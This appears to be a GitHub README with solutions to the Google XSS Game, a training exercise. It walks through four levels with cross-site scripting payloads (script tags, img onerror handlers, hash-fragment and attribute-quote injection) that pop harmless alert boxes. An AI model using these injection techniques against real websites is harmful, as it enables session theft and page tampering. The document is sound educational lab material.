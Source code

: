 # GoogleXSSGame
Solutions to the Google XSS game.

Warning, contains spoilers so be careful if you are playing the games. 

##Challenge 1
We are presented with a simple text entry box on a website. A quick check shows that the text box does no filtering or validation and creates a URL link with exactly what is written in to it.
This means we can inject an HTML elemnt straight away. The easiest element to inject is:
```HTML
<script>alert("Winner!")</script>
```
Enter this directly in to the textbox and you should be fine.
Alternately, you can enter this as part of the URL:
```HTML
https://xss-game.appspot.com/level1/frame?query=<script>alert("Winner!")</script>
```

##Challenge 2
We now have a blog type website, where we can enter text that gets displayed as a new entry. 
Entering our solution from Challenge 1 simply creates a new blog post with our entry in the `<blockquote>` tags. We know that this won't work for us. Instead of a direct injection, let's try an error injection to see if we can abuse JavaScript a little bit. Using the `img` tag, let's see if we can use an `onerror` as suggested in the hints:
```JavaScript
<img src="this.gif" onerror=alert("Winner!") />
```
If you enter this as your new blog post, you should see the alert pop up and show that you have outsmarted it. 

##Challenge 3
Looking at how we can manipulate this, we see that the only place we can inject a new element is directly into the URL bar. Taking a look at the JavaScript running here, we can see that this is where the input into the URL bar is processed:
```JavaScript
<script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(self.location.hash.substr(1) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(self.location.hash.substr(1));
        }
      }, false);
    </script>
```
The `chooseTag(num)` function is where the input is processed, so let's see if we can abuse this. This function is going to insert an HTML element with a title and the picture link. Interestingly, the title part has the `num` input being passed through a `parseInt(num)` function, but the link to the picture does not. We know that we cannot inject anything here, as the `parseInt(num)` function will just return a NaN response. However, looking at the next line, we see that the `num` parameter is simply used there without being tested or escaped. This looks like a great place to break in.

If we insert a `1` as the `num` parameter, we expect the website to operate as usual. However, if we can manipulate what is inserted here, we could potentially cause an injection like we did in the previous challenge. Looking at the like that sources the `img` in the JavaScript, let's make it look like this:
```HTML
<img src="/static/level3/cloud1" onerror="alert("Winner!")/>
```
To do this, we just needed to add the input `1' onerror='alert("Winner!")'/>` to the URL.
I found that this doesn't work in Firefox as firefox seems use URL encoding to replace the ' and " symbols. I'm not 100% sure why, but Chrome doesn't do this.

##Challenge 4
Let's take a look at what we have here. We have a freetext box (that takes anything) which kicks off a timer to display a message. The box functions correctly when we put in a number and anything else just causes the spinner to keep going and going and going. Looking at what happens when we press the button, we see that we put a call to the `startTimer()` function and then draw the spinner using the `onload` feature of an image. This looks like a fantastic place to try break.

The HTML element that is draw looks like this for an input of 60:
```HTML
<img src="/static/loading.gif" onload="startTimer('60');">
```
We want to manipulate it to look like this:
```HTML
<img src="/static/loading.gif" onload="startTimer(''); alert('Winner!');">
```
So we can simply insert the string `'); alert('Winner!'` into the textbox to break it.
